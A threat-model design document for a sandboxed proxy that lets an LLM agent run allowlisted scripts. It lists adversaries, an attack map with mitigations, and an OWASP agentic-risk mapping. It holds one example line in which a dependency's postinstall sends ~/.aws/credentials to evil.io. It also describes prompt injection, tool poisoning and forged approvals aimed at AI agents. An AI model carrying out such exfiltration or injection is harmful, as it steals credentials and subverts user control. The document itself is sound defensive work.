

# 03 — Threat Model

## Who we consider an adversary

| Actor | Trust | Comment |
|---|---|---|
| User at the keyboard | trusted | It's their machine and their decisions |
| Model (LLM) | **conditionally trusted** | Not malicious, but steerable by the content it reads |
| Content the model reads (logs, files, tool output, web) | **untrusted** | Primary vector |
| Repository content (`package.json`, scripts, manifest) | **untrusted** | Can be modified by a PR, a dependency, or the model itself |
| Dependencies (`node_modules`) | **untrusted** | Supply chain |
| Other user processes | untrusted | May try to reach the IPC socket |

Key shift from the naive model: **the repository is untrusted**.
This is exactly what makes the sandbox and the manifest lock file necessary.

## Two lines of defense

They're often confused, but they defend against different things.



**The validator can't see inside the process.** Here's what happens on a perfectly valid call:

```
pnpm test
 └─ reads package.json from the repo (anyone could have modified it)
     └─ runs vitest
         └─ imports ~1200 packages from node_modules
             └─ one of them, in postinstall, does
                fetch('https://evil.io', {body: readFileSync('~/.aws/credentials')})
```

The parameters are valid. The binary is allowlisted. The directory is correct. The proxy worked
flawlessly — and leaked the keys. Without a second line of defense, the proxy is only exactly
as safe as `node_modules`.

## Attack map

| # | Attack | Source | Line | Caught by |
|---|---|---|---|---|
| A1 | Command injection via a parameter | baseline | 1 | argv-only + regex/enum schemas |
| A2 | Path traversal (`../../.ssh/id_rsa`) | baseline | 1 | realpath + root confinement |
| A3 | Symlink escape from an allowed directory | baseline | 1+2 | realpath **after** resolution + seatbelt |
| A4 | Running the wrong binary (PATH hijack) | baseline | 1 | resolution to an absolute path from the allowlist |
| A5 | **IPC token theft → spawn via proxy** | [MCP spec](https://modelcontextprotocol.io/specification/draft/basic/security_best_practices) | arch. | 0700 directory + 0600 socket + handshake token + И5 (recipe names only) |
| A6 | **Manifest rug pull between calls** | CVE-2025-54136 | 1 | `mcpproxy.lock` + diff-approve |
| A7 | **Injection into a recipe's `description`** | tool poisoning / line jumping | 1 | sanitization when generating `tools/list` |
| A8 | **Indirect injection via script output** | OWASP ASI01 | 1 | untrusted wrapper + scan + truncation |
| A9 | **Exfiltration via a dependency's postinstall** | OWASP ASI04 | 2 | network domain allowlist |
| A10 | Reading `~/.ssh`, `~/.aws`, keychain | baseline | 2 | `denyRead` in the profile |
| A11 | **Writing to `.git/hooks`, `.zshrc` → later execution** | mandatory deny from srt | 2 | non-removable deny paths |
| A12 | Secret leakage from env into output | baseline | 1+2 | env allowlist on input, redaction on output |
| A13 | Runaway process, fork bomb, context flooding | baseline | 2 | timeout + SIGKILL on the process group, cap on stdout. **No real `setrlimit`** — see `10-honest-limitations.md` |
| A14 | **Approval forged via elicitation** | OWASP ASI09 | 5 | authoritative approval only out-of-band in Electron |
| A15 | XSS/RCE within Electron itself | Electron security | arch. | contextIsolation, sandbox, CSP, IPC validation |

Rows A5–A9, A11, A14 are direct results of industry research, not speculative.
See [04-research-findings.md](04-research-findings.md).

## Mapping to OWASP Top 10 for Agentic Applications 2026

Published December 9, 2025. Quote for the title slide:
*«an agent's blast radius equals the sum of every credential, tool, and API it can reach»*.

| ID | Risk | Coverage | How |
|---|---|---|---|
| ASI01 | Agent Goal Hijack | ◐ partial | Output treated as untrusted; but we don't control the model itself |
| **ASI02** | **Tool Misuse & Exploitation** | **● core** | Recipes instead of shell, parameter validation, least-agency scoping |
| ASI03 | Identity & Privilege Abuse | ◐ partial | Env allowlist, minimal process privileges |
| ASI04 | Agentic Supply Chain | ◐ partial | Network allowlist catches exfiltration from dependencies |
| **ASI05** | **Unexpected Code Execution (RCE)** | **● core** | OS sandbox + deny-by-default egress |
| ASI06 | Memory & Context Poisoning | ○ out of scope | |
| ASI07 | Insecure Inter-Agent Communication | ◐ partial | Authenticated IPC |
| ASI08 | Cascading Failures | ○ out of scope | |
| **ASI09** | **Human-Agent Trust Exploitation** | **● core** | Out-of-band confirmations outside the model's context |
| ASI10 | Rogue Agents | ◐ partial | Full audit trail + kill switch |

● covered · ◐ partial · ○ out of scope

## What we deliberately do not defend against

See [10-honest-limitations.md](10-honest-limitations.md). In short: domains, not traffic
content; a malicious user; the macOS kernel; the model itself.
